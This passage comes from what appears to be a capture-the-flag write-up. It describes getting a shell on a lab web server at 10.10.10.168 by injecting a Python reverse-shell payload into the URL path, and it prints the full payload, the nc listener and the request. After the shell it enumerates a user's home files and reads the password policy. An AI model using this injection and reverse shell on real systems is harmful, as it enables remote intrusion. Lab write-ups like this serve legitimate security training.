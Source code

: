 ```
python -c "'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[my ip]",[my exposed port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'"
```

a few tweaks, and the following satisfied the 'validations' in place by the server:

```
index.html';import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.78",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash");x='x
```

next, i set up a listener from my container running openvpn, etc. to wait for an incoming connection after i made the request:

```
nc -lvp 4444
```

then in my proxied browser: `http://10.10.10.168:8080/index.html';import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[my ip]",[my exposed port]));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash");x='x`

and _voilà_, we're in as `www-data`

---

## owning user

is `www-data` our user? running `find / name user.txt 2>/dev/null` indicates otherwise, the only user in the $HOME directory is **robert** (`/home/robert/user.txt`) and he's got what we want.

nevertheless, what can we do as `var/wwww`? enumerating through the fs, i checked what world readable files there were in /home/ and found some promising leads:

```
-rw-r--r-- 1 robert robert 220 Apr  4  2018 /home/robert/.bash_logout
-rw-r--r-- 1 robert robert 3771 Apr  4  2018 /home/robert/.bashrc
-rw-rw-r-- 1 robert robert 27 Oct  4 15:01 /home/robert/passwordreminder.txt
-rw-rw-r-- 1 robert robert 94 Sep 26 23:08 /home/robert/check.txt
-rwxr-xr-x 1 root root 1805 Oct  5 13:09 /home/robert/BetterSSH/BetterSSH.py
-rwxrwxr-x 1 robert robert 2514 Oct  4 14:55 /home/robert/SuperSecureCrypt.py
-rw-rw-r-- 1 robert robert 185 Oct  4 15:01 /home/robert/out.txt
-rw-r--r-- 1 robert robert 807 Apr  4  2018 /home/robert/.profile
```

i was also able to fetch the password policy:

```
CRYPT_METHOD" /etc/login.defs 2>/dev/nullSS_WARN_AGE\|^ENC
PASS_MAX_DAYS   99999
PASS_MIN_DAYS   0
PASS_WARN_AGE   7
ENCRYPT_METHOD SHA512
```
